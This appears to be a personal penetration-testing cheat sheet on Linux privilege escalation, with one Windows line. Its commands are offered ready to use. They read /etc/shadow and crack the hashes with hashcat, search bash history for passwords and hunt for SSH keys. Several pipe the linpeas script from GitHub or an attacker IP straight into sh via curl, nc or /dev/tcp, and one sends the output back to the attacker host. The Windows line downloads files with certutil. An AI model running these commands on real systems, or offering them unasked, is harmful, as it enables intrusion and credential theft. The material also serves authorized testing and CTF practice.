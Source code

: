 ## Permissions

Wanna find bad SUID permissions?
```
find / -type f -perm -4000 2>/dev/null 
```

virtual host routing

dnsrecon for finding domains

dnsrecon -r 127.0.0.1/24 -n <ip> -d <make up a domain>




## Linux Privilege Escalation
GTFOBins
**/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh**

**cat ~/.bash_history | grep -i passw**
**ls -la /etc/shadow**
**unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt**

**hashcat -m 1800 unshadowed.txt rockyou.txt -O**


**find / -name authorized_keys 2> /dev/null**
find / -name id_rsa 2> /dev/null 

**Always go for a tty shell if you have a worse shell if possible**

use a command like [(see here)](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)
```
python -c 'import pty; pty.spawn("/bin/sh")'
```


### Useful files

[PEASS-NG](https://github.com/peass-ng/PEASS-ng)

# From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64



```
## Windows Privilege Escalation

```
to grab a file to a windows computer 
certutil.exe -urlcache -f http://<lhost>/<filename> <name>

certutil is better for windows


```
